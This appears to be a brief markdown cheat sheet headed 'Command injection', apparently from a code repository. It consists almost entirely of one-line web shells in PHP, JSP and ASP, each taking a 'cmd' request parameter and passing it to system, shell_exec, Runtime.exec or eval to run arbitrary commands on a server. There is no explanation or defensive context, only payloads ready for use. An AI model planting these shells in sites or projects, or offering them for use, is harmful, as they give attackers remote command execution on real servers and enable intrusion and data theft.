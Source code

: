 # Command injection



***

### Scripts

<details>

<summary>PHP  - script.php</summary>

```php
#System REQUEST method
<?php system($_REQUEST["cmd"]); ?>

#Shell_exec REQUEST method
<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>
```

</details>

<details>

<summary>JSP - script.jsp</summary>

```java
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

</details>

<details>

<summary>ASP - script.asp</summary>

```javascript
<% eval request("cmd") %>
```

</details>
